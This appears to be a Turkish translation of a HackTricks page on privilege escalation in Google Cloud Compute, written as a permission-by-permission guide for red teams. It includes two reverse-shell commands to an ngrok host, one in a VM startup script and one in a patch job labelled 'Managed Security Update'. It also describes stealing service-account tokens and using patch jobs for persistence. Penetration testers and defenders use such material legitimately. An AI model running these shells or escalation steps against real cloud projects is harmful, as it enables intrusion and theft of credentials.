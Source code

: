 # GCP - Compute Privesc

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Compute

GCP'deki Compute ve VPC (ağ) hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Önemli: Metadata'sını değiştirmeyi gerektiren tüm ayrıcalık yükseltme saldırılarını gerçekleştirmek için (yeni kullanıcılar ve SSH anahtarları eklemek gibi) **örneğin bağlı SA üzerinde `actAs` izinlerinizin olması GEREKİR**, SA zaten bağlı olsa bile!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Bu izinle **bir örneğin** **metadata** bilgilerini **değiştirebilir** ve **bir kullanıcının yetkilendirilmiş anahtarlarını** **değiştirebilir** veya **sudo** izinlerine sahip **yeni bir kullanıcı oluşturabilirsiniz**. Bu nedenle, herhangi bir VM örneğine SSH ile bağlanabilir ve örneğin çalıştığı GCP Hizmet Hesabını çalabilirsiniz.\
Sınırlamalar:

* GCP Hizmet Hesaplarının VM örneklerinde varsayılan olarak **çok sınırlı bir kapsamı** olduğunu unutmayın.
* Giriş yapmak için **SSH** sunucusuyla **iletişim kurabilmeniz** gerekecek.

Bu izni nasıl istismar edeceğiniz hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Ayrıca yeni bir başlangıç betiği ekleyerek ve örneği yeniden başlatarak bu saldırıyı gerçekleştirebilirsiniz:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Bu izin, **önceki iznin aynı ayrıcalıklarını** belirli bir örnek üzerinde verir, tüm proje yerine. **Önceki bölümdeki aynı istismarlar ve sınırlamalar geçerlidir**.

### `compute.instances.setIamPolicy`

Bu tür bir izin, **önceki izinlerle kendinize bir rol vermenizi** ve bunları kötüye kullanarak ayrıcalıkları artırmanızı sağlar.

### **`compute.instances.osLogin`**

Eğer **OSLogin örnekte etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örnekte **root ayrıcalıklarınız olmayacak**.

{% hint style="success" %}
Bu izinle VM örneği içinde başarılı bir şekilde giriş yapmak için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Eğer **OSLogin örnekte etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örnekte **root ayrıcalıklarınız olacak**.

{% hint style="success" %}
Bu izinle VM örneği içinde başarılı bir şekilde giriş yapmak için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Atanmış bir Hizmet Hesabı ile **bir sanal makine oluşturmak ve token'ı çalmak** mümkündür, böylece ayrıcalıkları artırmak için meta verilere erişebilirsiniz.

Bu yöntem için istismar betiği [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) bulunabilir.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Eğer **`osconfig.patchDeployments.create`** veya **`osconfig.patchJobs.exec`** izinleriniz varsa, bir [**yamanın işi veya dağıtımı**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) oluşturabilirsiniz. Bu, ortamda yanlamasına hareket etmenizi ve bir projedeki tüm hesaplama örneklerinde kod yürütme elde etmenizi sağlar.

Şu anda, örneğe bağlı SA üzerinde **`actAs` iznine** ihtiyacınız olmadığını unutmayın.

Bunu manuel olarak istismar etmek istiyorsanız, ya bir [**yamanın işi**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **ya da** [**dağıtım**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)** oluşturmanız gerekecek.**\
Bir yamanın işi için çalıştırın:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Bir yamanın dağıtımını yapmak için:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) bu yanlış yapılandırmayı istismar etmek için geçmişte kullanılabiliyordu (ama şimdi çalışmıyor).

**Bir saldırgan bunu kalıcılık için de kötüye kullanabilir.**

### `compute.machineImages.setIamPolicy`

**Kendinize ek izinler verin** compute Image için.

### `compute.snapshots.setIamPolicy`

**Kendinize ek izinler verin** bir disk anlık görüntüsü için.

### `compute.disks.setIamPolicy`

**Kendinize ek izinler verin** bir disk için.

### Erişim Kapsamlarını Aşma

Bu bağlantıyı takip ederek bazı [**erişim kapsamlarını aşma fikirleri**](../) bulabilirsiniz.

### GCP Compute örneğinde Yerel Yetki Yükseltme

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referanslar

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
